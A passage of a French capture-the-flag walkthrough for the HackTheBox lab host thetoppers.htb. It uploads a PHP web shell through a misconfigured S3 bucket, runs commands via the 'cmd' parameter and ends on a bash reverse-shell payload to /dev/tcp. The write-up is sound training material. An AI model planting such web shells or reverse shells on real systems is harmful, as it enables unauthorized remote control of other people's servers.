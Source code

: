 Nous pouvons interagir avec ce bucket S3 à l'aide de l'utilitaire awscli. Il peut être installé sur Linux en utilisant la commande `apt install awscli`.

### 4. Configurer awscli

- **Commande** : `aws configure`

Nous utiliserons une valeur arbitraire pour tous les champs, car parfois le serveur est configuré pour ne pas vérifier l'authentification (il doit néanmoins être configuré pour quelque chose pour que aws fonctionne).

Nous pouvons lister tous les buckets S3 hébergés par le serveur en utilisant la commande `ls`.

- **Commande** : `aws --endpoint=http://s3.thetoppers.htb s3 ls`
- **Commande** : `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Nous voyons les fichiers index.php, .htaccess et un répertoire appelé images dans le bucket spécifié. Il semble que ce soit la racine web du site fonctionnant sur le port 80. Donc, le serveur Apache utilise ce bucket S3 comme stockage.

awscli a une autre fonctionnalité qui nous permet de copier des fichiers dans un bucket distant. Nous savons déjà que le site utilise PHP. Ainsi, nous pouvons essayer de télécharger un fichier shell PHP dans le bucket S3 et, comme il est téléchargé dans le répertoire racine web, nous pouvons visiter cette page web dans le navigateur, ce qui exécutera ce fichier et nous permettra d'obtenir une exécution de code à distance.

Nous pouvons utiliser le one-liner PHP suivant qui utilise la fonction `system()` qui prend le paramètre d'URL `cmd` en entrée et l'exécute comme une commande système.

### 5. Créer un fichier PHP pour le télécharger

- **Commande** : ``echo '<?php system(\$_GET["cmd"]); ?>' > shell.php``

### 6. Télécharger le shell PHP

- **Commande** : `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

Nous pouvons confirmer que notre shell est téléchargé en naviguant vers `http://thetoppers.htb/shell.php`. Essayons d'exécuter la commande système `id` en utilisant le paramètre d'URL `cmd`.

- **URL** : `http://thetoppers.htb/shell.php?cmd=id`

La réponse du serveur contient la sortie de la commande système `id`, ce qui vérifie que nous avons une exécution de code sur la machine. Essayons maintenant d'obtenir un shell inversé.

Pour un shell inversé, nous allons déclencher la machine distante pour qu'elle se connecte à l'adresse IP de notre machine locale sur le port d'écoute spécifié. Nous pouvons obtenir l'adresse IP `tun0` de notre machine locale en utilisant la commande suivante.

- **Commande** : `ifconfig`

Créons un nouveau fichier `shell.sh` contenant le payload de shell inversé bash suivant qui se connectera à notre machine locale sur le port 1337.

### Contenu de shell.sh :


`bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1`
